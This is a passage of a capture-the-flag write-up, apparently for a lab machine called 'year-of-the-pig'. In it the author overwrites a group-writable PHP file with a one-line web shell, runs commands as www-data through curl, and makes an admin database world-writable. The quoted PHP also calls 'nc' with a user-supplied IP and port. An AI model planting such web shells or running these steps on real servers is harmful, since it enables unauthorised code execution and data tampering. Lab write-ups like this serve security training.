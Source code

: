 ```php
                        system("nc $ip $port >/dev/null 2>&1");
                }
                else{
                        echo "Invalid Command!";
                }
                echo "<pre>\n";
        }
?>
```
The output of the commands whoami,id are hardcoded and there is some filter for command involving **nc**. So now I was thinking if I could bypass this, the webserver must be running as www-data and that way I could get code execution as user www-data.

## Checking apache process
```console
marco@year-of-the-pig:/var/www/html/admin$ ps -aux | grep -i apache
root       600  0.0  2.9 336556 14408 ?        Ss   02:48   0:00 /usr/sbin/apache2 -k start
www-data   611  0.0  3.0 341512 15128 ?        S    02:48   0:02 /usr/sbin/apache2 -k start
www-data   616  0.0  3.0 341460 14956 ?        S    02:48   0:00 /usr/sbin/apache2 -k start
www-data   617  0.0  2.8 341460 13944 ?        S    02:48   0:00 /usr/sbin/apache2 -k start
www-data   618  0.0  3.1 341516 15264 ?        S    02:48   0:00 /usr/sbin/apache2 -k start
www-data   629  0.0  3.0 341484 15208 ?        S    02:48   0:00 /usr/sbin/apache2 -k start
www-data   854  0.0  3.0 341516 14920 ?        S    02:52   0:00 /usr/sbin/apache2 -k start
www-data   857  0.0  3.0 341464 14800 ?        S    02:52   0:00 /usr/sbin/apache2 -k start
www-data   858  0.0  3.2 341460 15848 ?        S    02:52   0:00 /usr/sbin/apache2 -k start
www-data   859  0.0  3.2 341464 15760 ?        S    02:52   0:00 /usr/sbin/apache2 -k start
www-data   860  0.0  3.2 341468 16092 ?        S    02:52   0:00 /usr/sbin/apache2 -k start
marco     1106  0.0  0.2  14428   996 pts/0    S+   03:58   0:00 grep --color=auto -i apache
```
And it was running as www-data.

But it turned out we can easily edit the file as our user marco is in the web-developers group.
```console
marco@year-of-the-pig:/var/www/html/admin$ ls -la commands.php 
-rwxrwxr-x 1 www-data web-developers 1718 Aug 21 23:08 commands.php
marco@year-of-the-pig:/var/www/html/admin$ id
uid=1000(marco) gid=1000(marco) groups=1000(marco),1002(web-developers)
```
So, lets make a copy of the file and edit the file to execute any commands we like as www-data.

## New content of commands.php 
```console
marco@year-of-the-pig:/var/www/html/admin$ cp commands.php commands.php.bak
marco@year-of-the-pig:/var/www/html/admin$ vi commands.php
marco@year-of-the-pig:/var/www/html/admin$ cat commands.php
<?php
echo system($_REQUEST['cmd']);
?>
```
## Code execution as www-data
```console
marco@year-of-the-pig:/var/www/html/admin$ curl localhost/admin/commands.php -d 'cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data),1002(web-developers)
uid=33(www-data) gid=33(www-data) groups=33(www-data),1002(web-developers)
```
And this time we get code execution as www-data.
### Changing file permission for admin.db
```console
marco@year-of-the-pig:/var/www/html/admin$ curl localhost/admin/commands.php -d 'cmd=chmod 777 /var/www/admin.db'
marco@year-of-the-pig:/var/www/html/admin$ ls -la /var/www/admin.db 
-rwxrwxrwx 1 www-data www-data 24576 Nov 10 03:43 /var/www/admin.db
```